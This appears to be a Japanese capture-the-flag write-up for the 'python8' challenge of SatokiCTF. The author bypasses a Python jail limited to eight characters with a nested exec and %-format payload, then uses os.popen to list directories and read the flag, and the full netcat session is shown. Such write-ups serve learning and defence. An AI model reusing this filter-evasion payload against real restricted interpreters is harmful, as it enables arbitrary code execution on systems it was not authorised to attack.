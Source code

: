 # python8:Misc

$ python8

`nc 160.251.183.149 3838`

Attachment\
[python8.zip](https://github.com/colza12/ctf_writeup/blob/main/SatokiCTF/Misc/python8/python8.zip)

Difficulty Level : medium\
Point : 300

# Solution
添付ファイルを見てみると、使える文字が`0'()%cex`だけに制限されていた。\
Python8は未来すぎて使える文字が8文字しかないらしい。\
使える文字からして、明らかに`exec`と`%`を使えとのことだろう。\
`exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))`が使えるという情報を頂いたのでそのまま使わせていただきました。(この部分はどうしても分からなかった...コードを見れば理解できるが、自分で作るとなると...)\
python8.pyを実行して上記コードを投げると、任意の関数を実行できるようになる。(上記コードの解析依頼をChatGPT君に投げたら、バグりかけて途中で停止し正常動作に戻ったのはすごかった。さすがです。)\
`ls`、`cd`、`cat`を使ってflagを探したいが、これはLinuxではなくPythonなので、コマンドをそれぞれ置き換える。
```python
ls = import os; print('\n'.join(os.listdir('.')))    # ls = import os; os.system('ls')
cd = import os; os.chdir('..')      # cd = import os; os.system('cd')
cat = import os; print(os.popen('cat flag.txt').read())    # cat = import os; os.sysmte('cat')
```
上記コードを使ってディレクトリのどこかにあるflagを探索していく。
```
$ nc 160.251.183.149 3838
Python 8.26.1997 (main, Aug 26 2997, 00:00:00) [SatoCompiler 1.0.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print('\n'.join(os.listdir('.')))
run
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; os.chdir('..')
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print('\n'.join(os.listdir('.')))
app
var
home
sys
srv
usr
opt
mnt
bin
etc
media
dev
flag-31ac9361857cf0098f093447acbbd315.txt
proc
sbin
lib
lib64
root
boot
run
tmp
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os; print(os.popen('cat flag-31ac9361857cf0098f093447acbbd315.txt').read())
flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}
```
flagが得られた。

`flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}`
